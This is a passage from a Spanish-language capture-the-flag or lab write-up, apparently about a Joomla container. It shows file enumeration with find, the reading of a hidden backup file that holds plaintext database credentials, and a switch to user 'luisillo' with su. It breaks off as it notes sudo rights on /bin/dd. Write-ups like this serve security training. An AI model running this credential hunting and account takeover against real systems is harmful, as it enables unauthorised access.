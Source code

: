 ```terminal
www-data@66b028a2a370:/var/www/html$ find /var -user www-data -o -perm -o=r 2>/dev/null | grep -v '/joomla/\|/lib/\|/cache/\|/log/'
/var
/var/spool
/var/spool/mail
/var/log
/var/tmp
/var/lock
/var/cache
/var/lib
/var/opt
/var/run
/var/local
/var/backups
/var/backups/hidden
/var/backups/hidden/otro_caramelo.txt
/var/mail
/var/www
/var/www/html
/var/www/html/joomla
/var/www/html/index.html
```

El archivo `/var/backups/hidden/otro_caramelo.txt` contiene credenciales en texto plano correspondientes al usuario `luisillo`, utilizados por Joomla para conectarse a la base de datos local.

```terminal
www-data@66b028a2a370:/var/www/html$ cat /var/backups/hidden/otro_caramelo.txt
...[snip]...
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
...[snip]...
```

Accedo exitosamente como `luisillo` utilizando las credenciales extraídas.

```terminal
www-data@66b028a2a370:/var/www/html$ su luisillo
Password: luisillosuperpassword

luisillo@66b028a2a370:/var/www/html$ id
uid=1001(luisillo) gid=1001(luisillo) groups=1001(luisillo),100(users)
```

---
## Privilege Escalation

Listando los binarios disponibles con privilegios `sudo` para el usuario `luisillo`, se encuentra que puede ejecutar `/bin/dd` sin necesidad de contraseña.
